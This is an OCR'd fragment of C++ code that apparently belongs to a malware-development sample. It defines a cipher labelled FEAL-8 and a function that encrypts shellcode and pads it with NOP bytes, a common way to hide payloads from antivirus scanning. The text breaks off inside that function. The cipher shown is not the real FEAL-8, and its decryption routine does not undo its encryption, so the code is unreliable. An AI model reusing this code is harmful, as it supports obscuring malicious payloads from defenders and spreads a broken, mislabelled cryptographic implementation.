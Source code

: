 ```cpp

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
```